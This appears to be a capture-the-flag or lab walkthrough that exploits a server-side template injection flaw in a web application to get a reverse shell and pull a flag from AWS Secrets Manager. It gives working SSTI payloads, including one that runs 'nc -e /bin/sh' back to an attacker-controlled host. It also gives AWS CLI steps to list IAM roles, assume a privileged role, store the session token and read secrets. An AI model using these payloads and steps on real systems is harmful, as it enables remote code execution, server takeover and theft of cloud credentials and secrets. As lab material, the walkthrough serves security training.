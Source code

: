 1. Access and exploit given web application with SSTI vulnerability

    ```html
    <div>{{''.__class__.__mro__[1].__subclasses__()[349]('ls',shell=True,stdout=-1).communicate()}}</div>
    ```

2. Prepare an EC2 instance which will serve as attacker's server
   - Allow TCP traffic from victim's server coming to port `4444` in Security group
   - open port `4444` using `nc`
   -  you may use other port instead of `4444`

    ```bash
    nc -lvp 4444
    ```

3. Run below payload on vulnerable web application
   - It will give control over `web application`'s server to `attacker`'s  server.

    ```html
    <div>{{''.__class__.__mro__[1].__subclasses__()[349]('nc -e /bin/sh Public_IP_address_of_attacking_server 4444 ',shell=True,stdout=-1).communicate()}}</div>
    ```
4. List IAM roles 
    - Use EC2 instance created at `2.`
    ```bash
    # List IAM role which contains word "SSTI"
    aws iam list-roles | grep SSTI
    ```
5. List attached policies of IAM role
   - Look for role which contains  `secretsmanager`

    ```bash
    aws iam list-attached-role-policies --role-name name_of_role_you_want
    ```
6. Assume role

    ```bash
    aws --region us-east-1 sts assume-role --role-arn arn_of_role_you_want --role-session-name any_name
    ```

7. configure profile `assumed-role` to use credentials retrieved above

    ```bash
    aws configure --profile assumed-role
    ```

8. Use `echo` to add `aws_session_token` to `~/.aws/credentials`

    ```bash
    echo 'aws_session_token = SessionToken_retrieved_above' >> ~/.aws/credentials
    ```

9.  Access secrets using configured profiles 

    ```bash
    aws --region us-east-1 --profile assumed-role secretsmanager list-secrets | grep SSTI
    ```

10. Get flag

    ```bash
    aws --region us-east-1 --profile assumed-role secretsmanager get-secret-value --secret-id arn_of_flag
    ```
